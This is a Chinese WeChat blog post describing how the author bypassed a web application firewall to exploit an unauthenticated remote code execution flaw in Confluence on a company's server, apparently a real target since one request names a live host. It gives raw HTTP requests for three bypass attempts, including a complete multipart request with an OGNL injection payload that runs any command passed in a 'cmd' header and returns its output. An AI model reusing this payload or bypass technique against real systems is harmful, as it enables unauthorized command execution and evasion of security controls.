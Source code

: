 #  记一次Confluence Rce绕WAF的过程

原创 安全艺术  [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 SecurityArt

功能介绍 一个想挣脱却一直陷入其中的脚本小子，一心想成为逻辑大佬却又苦苦追求弱口令的手注玩家

____

___发表于_

收录于合集

经历一段时间的面面面试，目前算是基本稳定了，记得在某次面试过程中发现目标企业存在Confluence未授权rce的漏洞，后续再次尝试时发现被waf拦截了，所以多了个和waf对抗的故事

##  **1、HTTP隧道传输/ HTTP pipeline【失败】**

通过使用 Connection: keep-alive 达到一次传输多个http包的效果:

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1Host: Content-Type: application/x-www-form-urlencodedConnection: keep-aliveContent-Length: 203  
    queryString=aPOST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1Host: help.hualala.comContent-Type: application/x-www-form-urlencodedConnection: keep-alivecmd: pwd  
    queryString={

![]()

##  **2、分块传输/ Chunked Transfer (HTTP 1.1)【失败】**

插件：http://github.com/c0ny1/chunked-coding-converter

![]()

![]()

##  **3、HTTP协议未覆盖【成功】**

利用 Content-type: multipart/form-
data绕过上传的边界（boundary）限制。通过多boundary定义，使waf检测范围和实际上传范围不一致，从而绕过waf上传：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0Accept: application/json, text/javascript, */*; q=0.01Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: multipart/form-data; boundary=--------998091706;boundary=--------998091705X-Requested-With: XMLHttpRequestx-atlassian-mau-ignore: trueContent-Length: 678Connection: closeCookie: JSESSIONID=E4513E8589FBD6AB5128994E87ADA4D0cmd: id  
    ----------998091706Content-Disposition: form-data; name="queryString"  
    sss----------998091706------------998091705Content-Disposition: form-data; name="queryString"  
    \u0027+#{\u0022\u0022[\u0022class\u0022].forName(\u0022javax.script.ScriptEngineManager\u0022).newInstance().getEngineByName(\u0022js\u0022).eval(\u0022var c=com.atlassian.core.filters.ServletContextThreadLocal.getRequest().getHeader(\u0027cmd\u0027);var x=java.lang.Runtime.getRuntime().exec(c);var out=com.atlassian.core.filters.ServletContextThreadLocal.getResponse().getOutputStream();org.apache.commons.io.IOUtils.copy(x.getInputStream(),out);out.flush();\u0022)}+\u0027----------998091705--

![]()

高并发、垃圾数据都尝试了，均未成功，就不放截图了。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


